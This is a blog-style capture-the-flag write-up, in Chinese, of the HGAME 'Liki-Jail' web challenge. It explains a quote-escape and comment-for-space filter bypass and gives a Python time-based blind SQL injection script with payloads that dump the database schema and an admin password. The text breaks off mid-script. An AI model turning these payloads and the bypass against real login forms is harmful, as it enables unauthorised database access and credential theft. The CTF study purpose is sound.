 ```yaml
---
title: HGAME-Web-Week3WP
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/41414542.jpg'
authorAbout: steamID：888007034
authorDesc: Blizzard：TroyeSivan#51769
categories: 技术
comments: true
date: 2021-02-20 23:05:32
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1130193.jpg
---
```

一、Liki-Jail

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210215192601.png)

只有一个登录框，输入啥都是返回相同的内容（除非有非法字符），初步猜测是时间盲注。

第一步，测一下可用的字符：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210215192447.png)

可以看到空格单引号都被过滤了，但是空格可以用/**/代替，单引号的话这里我用了转义符号，稍微解释一下：后台的语句大概是 select xxx from xxx where username='Troy3e' and password='caibi'，这时，如果我们另username为Troy3e\，password为

    /**/or/**/sleep(2)#

那么原语句就变为

    where username='Troy3e\' and password='/**/or/**/sleep(2)#'

就相当于where username='xxx' or sleep(2)#，所以会延时两秒。

接下来就是普通盲注的思路了，脚本如下：

    import requests
    import datetime
    import time
    
    flag = ""
    url = "https://jailbreak.liki.link/login.php"
    for i in range(1,1000):
        l = 32
        h = 128
        mid = (l + h) // 2
        while(l<h):
            name = "admin\\"
            #payload = "/**/or/**/if((ascii(substr(database(),{0},1)))>{1},1,sleep(2))#".format(i,mid) #库名为week3sqli
            #payload = "/**/or/**/if((ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema/**/like/**/database())),{0},1))>{1}),1,sleep(2))#".format(i,mid) #表名为u5ers
            #payload = "/**/or/**/if((ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name/**/like/**/0x7535657273)),{0},1))>{1}),1,sleep(2))#".format(i,mid) #列名为usern@me,p@ssword
            #payload = "/**/or/**/if((ascii(substr((select(group_concat(`usern@me`))from(week3sqli.u5ers)),{0},1))>{1}),1,sleep(2))#".format(i,mid) #用户名为admin
            payload = "/**/or/**/if((ascii(substr((select(group_concat(`p@ssword`))from(week3sqli.u5ers)),{0},1))>{1}),1,sleep(2))#".format(i,mid) #密码为sOme7hiNgseCretw4sHidd3n
            data = {"username":name,"password":payload}
            time1 = datetime.datetime.now()
            r = requests.post(url=url,data=data)
            time2 = datetime.datetime.now()
            sec = (time2 - time1).seconds